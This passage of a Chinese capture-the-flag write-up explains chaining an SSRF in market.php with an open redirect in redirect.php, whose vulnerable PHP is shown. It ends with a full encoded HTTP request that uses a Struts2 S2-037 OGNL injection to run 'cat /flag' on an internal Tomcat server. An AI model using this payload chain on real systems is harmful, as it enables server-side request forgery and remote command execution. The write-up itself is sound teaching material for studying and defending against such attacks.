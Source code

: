 **第二个点：SSRF**

在market.php文件中，有一处重定向，我们只需要绕过is_cat函数中的规则，即可利用这个功能进行SSRF。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084818-4499de30-8f07-1.png)

而且redirect.php中还存在一个重定向，刚好可以结合绕过上面的规则限制。规则要求url以图片格式结尾，我们可以使用 `?、#、&` 等等符号来绕过。

// redirect.php

```
<?php
if(isset($_GET['u'])){
    header("Location: ".$_GET['u'].".php");
    $log = date("Y-m-d H:i:s")." : ".$_SERVER[REMOTE_ADDR]." redirect to: ".$_GET['u'].".php\n\r";
    file_put_contents("log.txt",$log,FILE_APPEND);
}else{
    header("Location: index.php");
}
```

接下来可以开始探测一波常用端口，看看上面有没其他web服务，然后会发现8080端口上运行这tomcat+struts2。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084826-48e8f35e-8f07-1.png)

测一下Struts的漏洞，发现S2-037可用。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084831-4c303e8c-8f07-1.png)

```
GET /market.php?url=https://where_is_my_cat.ichunqiu.com/redirect.php%3Fu%3Dhttp%253A//127.0.0.1%253A8080/struts2-rest-showcase/orders/3/%2528%252523_memberAccess%25253d%2540ognl.OgnlContext%2540DEFAULT_MEMBER_ACCESS%2529%25253f%2528%252523wr%25253d%252523context%25255b%252523parameters.obj%25255b0%25255d%25255d.getWriter%2528%2529%252C%252523rs%25253d%2540org.apache.commons.io.IOUtils%2540toString%2528%2540java.lang.Runtime%2540getRuntime%2528%2529.%252565%252578%252565%252563%2528%252523parameters.command%255B0%255D%2529.getInputStream%2528%2529%2529%252C%252523wr.println%2528%252523rs%2529%252C%252523wr.flush%2528%2529%252C%252523wr.close%2528%2529%2529%253Axx.toString.json%253F%2526obj%253Dcom.opensymphony.xwork2.dispatcher.HttpServletResponse%2526content%253D233%2526command%253Dcat%252520/flag%2526%23mochazz.jpg HTTP/1.1
Host: where_is_my_cat.ichunqiu.com:8006
Cookie: PHPSESSID=fkotbsvfhbdrfbjotnhbtriuq0; HOST=where_is_my_cat.ichunqiu.com
```

# 评论区
**请文明评论，禁止广告**
<img src="https://cloud.panjunwen.com/alu/扇耳光.png" alt="扇耳光.png" class="vemoticon-img">  

---